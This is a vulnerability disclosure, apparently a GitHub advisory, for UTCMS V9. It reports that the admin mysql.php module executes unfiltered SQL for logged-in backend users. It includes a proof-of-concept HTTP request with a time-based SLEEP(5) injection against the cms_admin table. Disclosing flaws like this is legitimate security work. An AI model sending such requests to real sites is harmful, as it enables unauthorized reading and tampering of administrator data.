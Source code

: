 # Vendor

HuangDou

# Product

UTCMS

# version

 V9

# Download 

https://github.com/usualtool/ut-cms

# Vulnerability

Execute any SQL statement

# Description

In the mysql.php page, users can execute SQL query statements, but no results will be displayed. The problem is that there is no parameter filtering, and attackers can execute SELECT, CREATE, INSERT and other statements after logging into the backend.

# Analysis

In the app/modules/ut-data/admin/mysql.php , users can execute SQL query statements, but no results will be displayed. The problem is that there is no parameter filtering, and attackers can execute SELECT, CREATE, INSERT and other statements after logging into the backend.

<img width="1053" height="295" alt="image" src="https://github.com/user-attachments/assets/fcef40b4-23bb-452f-b2c3-25110015ae3a" />

We reproduce under normal no delay
<img width="1413" height="914" alt="image" src="https://github.com/user-attachments/assets/6ffb4526-40ef-4503-b08b-6ab061fee477" />


5 seconds to see
<img width="1418" height="919" alt="image" src="https://github.com/user-attachments/assets/26c04500-0c27-41ae-adac-c3ab509d1ada" />



# POC
```
POST /ut-cms-9/app/dev/?m=ut-data&p=mysql&do=mysql-sql HTTP/1.1
Host: 192.168.1.69
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=l7s63btrio4o1cepgib2l9v89m
Content-Length: 45

sql=SELECT+*+FROM+cms_admin+WHERE+SLEEP(5)%3b
```
